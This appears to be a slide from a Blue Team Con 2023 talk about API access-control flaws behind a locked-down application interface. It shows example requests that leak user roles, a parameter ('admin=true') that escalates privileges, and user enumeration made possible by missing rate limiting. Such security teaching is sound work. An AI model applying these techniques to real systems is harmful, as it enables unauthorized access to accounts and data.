

# GUI’s locked down. But the API…
08/26/23 Blue Team Con 2023
Request:

OPTIONS /api/APP/user?AppSpecificIDNumber=0001

Response:

HTTP/1.1 200 OK

First Name: Person
Last Name: Last
Roles: [APP, App2, Admin]

Request:

OPTIONS /api/stuff/getApp?owner_id=Name&admin=true

Now when we look at the application GUI, we see many more options and menus load. This is a good sign that privilege escalation has been achieved or can be built up more.

No Rate Limiting:
For the above, I could cycle through and find valid users values for the below 2 apis:

OPTIONS /api/APP/user?AppSpecificIDNumber=0001

GET /api/APP/getUsernamefromDirectory?ID=Name

Find valid users, check for admins and higher permissions at our leisure. We can make ourselves owners of arbitrary compliance items…